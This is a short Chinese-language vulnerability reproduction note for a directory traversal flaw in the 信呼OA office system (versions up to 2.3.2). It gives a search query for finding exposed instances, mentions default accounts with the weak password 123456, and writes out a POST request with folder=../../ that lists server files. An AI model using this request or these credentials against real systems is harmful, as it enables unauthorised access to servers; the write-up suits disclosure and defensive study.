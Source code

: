 # 信呼OA beifenAction.php 后台目录遍历漏洞

## 漏洞描述

信呼OA beifenAction.php文件中调用了 getfilerows方法，导致了目录遍历漏洞，攻击者通过漏洞可以获取服务器上的文件信息

## 漏洞影响

```
信呼OA <= 2.3.2
```

## 网络测绘

```
app="信呼协同办公系统"
```

## 漏洞复现

登录页面

![image-20220520133147020](./images/202205201331106.png)

其中默认存在几个用户存在弱口令 123456

![image-20220520133200310](./images/202205201332409.png)

存在漏洞的文件为 `webmain/system/beifen/beifenAction.php`

![image-20220520133212813](./images/202205201332896.png)

查看 `getfilerows()` 方法，在 `include/chajian/fileChajian.php`

![image-20220520133224646](./images/202205201332744.png)

该方法遍历目录下的文件名并输出，登录后，发送请求包

```
POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true

folder=../../
```

![image-20220520133237936](./images/202205201332997.png)